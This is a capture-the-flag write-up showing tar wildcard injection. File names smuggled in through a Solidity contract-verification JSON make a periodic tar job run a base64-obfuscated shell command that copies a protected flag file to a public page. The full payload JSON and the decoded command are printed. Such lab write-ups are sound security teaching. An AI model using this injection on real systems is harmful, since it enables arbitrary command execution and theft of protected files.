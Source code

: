 # copy-paste-deploy

In this CTF challenge, we explore a scenario in which a simple “deploy-and-verify” setup conceals a privilege escalation opportunity via Linux wildcard usage in `tar`. Much like how seemingly standard ERC1155 callbacks led to reentrancy exploits in other DeFi protocols, here we see how ordinary file operations combined with a system’s periodic tar archival can lead to a significant security breach.

---

## Challenge Overview

The challenge, titled **copy-paste-deploy**, centers on a scenario where you have access to a server that:

1. Periodically archives files in a `log` folder with `tar`.
2. Allows you to drop files (with arbitrary filenames) into that `log` folder.
3. Uses wildcard patterns (`*`) when performing the tar command.

By leveraging the well-known Linux wildcard-with-tar exploit, you can escalate privileges or exfiltrate files you would normally have no permission to access. In this setup, your ultimate goal is to copy the `flag.txt` file (located outside your accessible directory) into a public-facing location (`../public/verify.html`).

### Intended Outcome

By combining the wildcard exploit with precisely crafted filenames, you can trick the system’s periodic `tar` command into executing a malicious shell script. This shell script then performs critical file operations (for instance, `cp ../flag.txt ../public/verify.html`) to reveal the challenge’s flag.

---

## System Analysis

### The File Archiving Process

1. **Automatic Archival**  
   A server script periodically runs a command similar to:
   ```bash
   tar -cvf logs.tar log/*
   ```
   Because the command uses a wildcard (`*`) within the `log` folder, malicious filenames within `log/` can alter the behavior of the `tar` command.

2. **Wildcard Injection**  
   By placing specially named files into the `log` folder, an attacker can trick `tar` into interpreting them as flags/options or script commands to be executed. For instance, a file named:
   ```
   --checkpoint-action=exec=sh -c "COMMAND"
   ```
   can cause `tar` to run arbitrary shell commands once it hits a “checkpoint” in the archiving process.

3. **Privileges**  
   While it’s not guaranteed that the archiving script runs as `root`, it may still run with higher privileges or have access to directories (like `../`) that a low-privileged user does not. Thus, we can abuse that to copy a sensitive file (like `../flag.txt`) into a publicly accessible location.

### The Deploy and Verify Contracts

The challenge also provides multiple code snippets for deploying and verifying Solidity smart contracts:

```bash
forge create --rpc-url $RPC_URL --private-key 0xac... \
  ./src/Counter.sol:Counter

forge create --rpc-url $RPC_URL --private-key 0xac... \
  ./src/Counter.sol:Counter2

forge create --rpc-url $RPC_URL --private-key 0xac... \
  ./src/Counter.sol:Counter3


Upload this json when verifying the contract: 
{"language":"Solidity","sources":{"--checkpoint-action=exec=sh -c \"echo Y3AgLi4vZmxhZy50eHQgLi4vcHVibGljL3ZlcmlmeS5odG1sCg==|base64 -d|sh\"":{"content":"// SPDX-License-Identifier: UNLICENSED\npragma solidity ^0.8.13;\n\ncontract Counter {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n\ncontract Counter2 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n\ncontract Counter3 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n"}},"settings":{"remappings":["forge-std/=lib/forge-std/src/"],"optimizer":{"enabled":true,"runs":200},"metadata":{"useLiteralContent":false,"bytecodeHash":"ipfs","appendCBOR":true},"outputSelection":{"*":{"*":["abi","evm.bytecode","evm.deployedBytecode","evm.methodIdentifiers","metadata"]}},"evmVersion":"paris","viaIR":false,"libraries":{}}}
```

While these commands might seem unrelated at first glance, they serve as a decoy. The real vulnerability lies not in the solidity code itself but rather in how you can manipulate the contract's filename.

---

## The Vulnerability

The core vulnerability stems from **Linux tar wildcard injection**. When `tar` is invoked with a command such as:
```bash
tar -cvf logs.tar log/*
```
it will interpret any files in `log/` that start with a hyphen (`-`) as command-line options. Even more dangerous is if you pass special flags like `--checkpoint` or `--checkpoint-action`, which can instruct `tar` to run arbitrary commands at each checkpoint. This can be used to:

1. **Execute arbitrary shell commands**  
2. **Copy protected files**  
3. **Escalate privileges** if the process is running as a more privileged user

In this particular challenge, the ultimate malicious command is:
```bash
cp ../flag.txt ../public/verify.html
```
which exfiltrates the flag to a public location.

---

## The Exploit

### Exploit Setup

1. **Access to the `log` Folder**  
   You have write permissions to `log/` and know that the server periodically runs `tar -cvf logs.tar log/*`.

2. **Malicious Filenames**  
   To trigger the exploit, you create two files in `log/`:
   - `--checkpoint=1`
   - `--checkpoint-action=exec=sh -c "echo Y3AgLi4vZmxhZy50eHQgLi4vcHVibGljL3ZlcmlmeS5odG1sCg==|base64 -d|sh"`

   The base64-decoded command simply runs:
   ```bash
   cp ../flag.txt ../public/verify.html
   ```
   A real attacker might skip base64 encoding entirely and just pass the raw shell command, but encoding can help obfuscate the payload or handle tricky characters.

3. **Trigger the Archive**  
   When the server next runs `tar -cvf logs.tar log/*`, it interprets these specially named files as options:
   - `--checkpoint=1` instructs `tar` to run an action after the first checkpoint.
   - `--checkpoint-action=exec=sh -c "..."` executes the shell command at that checkpoint.

### Why It Works

1. **Tar’s Wildcard Handling**  
   `tar` sees `-` at the start of the file name and treats it as an argument rather than a normal file name.  
2. **Default Checkpoints**  
   `tar` supports checkpoint actions, which run commands after a certain number of processed files.  
3. **Privilege / File Path**  
   Because the script is presumably run by a user that has access to `../flag.txt`, the malicious command can copy the file to `../public/verify.html`, making it accessible to the attacker.

---

## Complete Solution Walkthrough

1. **Initial Setup**  
   - Gain the ability to write into the `log` folder on the remote machine.
   - Confirm `tar -cvf logs.tar log/*` is periodically executed by an automated script or cron job.

2. **Create the Malicious Files**  
   - Verify the contract with the malicious name to store them to the `log/` folder,:
```bash
{"language":"Solidity","sources":{"--checkpoint-action=exec=sh -c \"echo Y3AgLi4vZmxhZy50eHQgLi4vcHVibGljL3ZlcmlmeS5odG1sCg==|base64 -d|sh\"":{"content":"// SPDX-License-Identifier: UNLICENSED\npragma solidity ^0.8.13;\n\ncontract Counter {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n\ncontract Counter2 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n\ncontract Counter3 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n"}},"settings":{"remappings":["forge-std/=lib/forge-std/src/"],"optimizer":{"enabled":true,"runs":200},"metadata":{"useLiteralContent":false,"bytecodeHash":"ipfs","appendCBOR":true},"outputSelection":{"*":{"*":["abi","evm.bytecode","evm.deployedBytecode","evm.methodIdentifiers","metadata"]}},"evmVersion":"paris","viaIR":false,"libraries":{}}}

{"language":"Solidity","sources":{"--checkpoint=1":{"content":"// SPDX-License-Identifier: UNLICENSED\npragma solidity ^0.8.13;\n\ncontract Counter {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n\ncontract Counter2 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n\ncontract Counter3 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\nnumber++;\n    }\n}\n"}},"settings":{"remappings":["forge-std/=lib/forge-std/src/"],"optimizer":{"enabled":true,"runs":200},"metadata":{"useLiteralContent":false,"bytecodeHash":"ipfs","appendCBOR":true},"outputSelection":{"*":{"*":["abi","evm.bytecode","evm.deployedBytecode","evm.methodIdentifiers","metadata"]}},"evmVersion":"paris","viaIR":false,"libraries":{}}}

{"language":"Solidity","sources":{"src/Counter.sol":{"content":"// SPDX-License-Identifier: UNLICENSED\npragma solidity ^0.8.13;\n\ncontract Counter {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\n    }\n}\n\ncontract Counter2 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\n    }\n}\n\ncontract Counter3 {\n    uint256 public number;\n    function setNumber(uint256 newNumber) public {\n    }\n\n    function increment() public {\nnumber++;\nnumber++;\n    }\n}\n"}},"settings":{"remappings":["forge-std/=lib/forge-std/src/"],"optimizer":{"enabled":true,"runs":200},"metadata":{"useLiteralContent":false,"bytecodeHash":"ipfs","appendCBOR":true},"outputSelection":{"*":{"*":["abi","evm.bytecode","evm.deployedBytecode","evm.methodIdentifiers","metadata"]}},"evmVersion":"paris","viaIR":false,"libraries":{}}}

```

3. **Wait for the Tar Command**  
   - The next time the system runs its archive script, it processes these specially named files as arguments.
   - The checkpoint action triggers, executing:
     ```bash
     cp ../flag.txt ../public/verify.html
     ```
   - The flag is now available at `../public/verify.html`.

4. **Retrieve the Flag**  
   - Simply visit the `verify.html` page or open the file locally to view the contents of `flag.txt`.

---

## Key Takeaways

- **Beware of Wildcards with Sensitive Commands**  
   Always validate or sanitize filenames before using them in commands like `tar`, `zip`, or `cp`. Files that begin with a dash can be interpreted as flags rather than filenames.

---

This challenge reminds us that sometimes the biggest vulnerabilities do not stem from “obvious” application logic. Instead, they hide in the mundane corners of a system—like how tar commands handle filenames. Just as ERC1155 callbacks in a DeFi protocol can unexpectedly bypass important safety checks, Linux wildcard expansions can slip past standard security precautions unless properly restricted or sanitized.

- flag: **rctf{r31nv3nt1ng_th3_wh33l_@lw@ys_g0es_f!ne_fd886bc7cd0eb8c0c7137bbb}**

